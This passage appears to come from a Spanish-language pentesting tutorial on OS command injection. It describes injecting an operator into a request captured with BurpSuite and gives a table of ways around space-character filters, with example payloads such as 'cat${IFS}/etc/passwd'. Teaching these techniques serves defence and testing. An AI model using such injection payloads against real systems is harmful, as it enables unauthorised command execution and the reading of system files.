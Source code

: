 #### Ejemplo 

A continuación se presenta un caso en que ocupamos el primer operador de la tabla y obtenemos éxito al capturar la petición por BurpSuite.

[![command1](/images/command1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/command1.png)

Al detectar el posible vector de ataque simplemente lo agregamos de la siguiente forma.

[![command2](/images/command2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/command2.png)

Este mismo procedimiento se puede realizar con cada uno de los operadores de la tabla.

### Bypass de los filtros de espacios

En muchos entornos de seguridad, el carácter de **espacio** (`" "`) se encuentra en listas negras para impedir la ejecución de comandos. Sin embargo, existen diferentes técnicas para evadir esta restricción y seguir inyectando. A continuación se presentan ejemplos:

| Técnica         | Descripción | Ejemplo |
|-----------------|-------------|---------|
| **`%0a`** (salto de línea) | El salto de línea puede separar comandos o argumentos. | `127.0.0.1%0als` |
| **`%0a+`** (salto de línea + espacio) | Combina newline con un espacio, útil contra algunos WAF. | `127.0.0.1%0a+ls` |
| **`%09`** (tabulación) | Sustituye el espacio por una tabulación; shells suelen aceptarlo entre argumentos. | `cat%09/etc/passwd` |
| **`${IFS}`** (Internal Field Separator) | Variable de entorno en Linux que equivale a espacio, tab y newline. | `cat${IFS}/etc/passwd` |
| **`{ls,-la}`** | Expansión de llaves en bash para separar argumentos sin usar espacio explícito. | `{ls,-la}` → `ls -la` |
| **`>`** (redirección) | Redirige salida a un archivo; no reemplaza espacios, pero sirve como bypass adicional. | `id > /tmp/out.txt` |
